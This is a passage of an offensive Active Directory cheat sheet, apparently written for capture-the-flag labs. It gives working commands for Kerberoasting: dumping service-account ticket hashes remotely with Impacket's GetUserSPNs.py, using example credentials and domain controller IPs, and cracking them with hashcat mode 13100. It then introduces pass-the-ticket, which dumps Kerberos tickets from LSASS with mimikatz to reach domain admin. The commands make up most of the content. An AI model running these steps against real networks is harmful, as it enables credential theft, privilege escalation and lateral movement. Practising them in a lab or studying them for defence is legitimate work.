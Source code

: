 * Copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

```
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

### Kerberoasting with Impacket

#### Impacket Installation

* Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20
* `cd /opt` navigate to your preferred directory to save tools in
* Download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19
* `cd Impacket-0.9.19` navigate to the impacket directory
* `pip install .` - this will install all needed dependencies

### Kerberoasting w/ Impacket -

* Navigate to where GetUserSPNs.py is located

```
cd /usr/share/doc/python3-impacket/examples/ 
```

* This will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

```
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.121.111 -request
└─$ sudo python3 GetUserSPNs.py htb.local/svc-alfresco:s3rvice -dc-ip 10.10.10.161 -request

```

* Now crack that hash

```
hashcat -m 13100 -a 0 hash.txt Pass.txt 
```

* Once cracked to show the password

```
hashcat -m 13100 -a 0 /tmp/http1.txt Pass.txt --show
```

## Pass the Ticket with mimikatz

### Pass the Ticket Overview

* Pass the ticket works by dumping the TGT from the LSASS memory of the machine.
* The Local Security Authority Subsystem Service (LSASS) is a memory process that stores credentials on an active directory server and can store Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided.
* You can dump the Kerberos Tickets from the LSASS memory just like you can dump hashes.
* When you dump the tickets with mimikatz it will give us a .kirbi ticket which can be used to gain domain admin if a domain admin ticket is in the LSASS memory.
* This attack is great for privilege escalation and lateral movement if there are unsecured domain service account tickets
* ![alt text](https://i.imgur.com/V6SOlll.png)
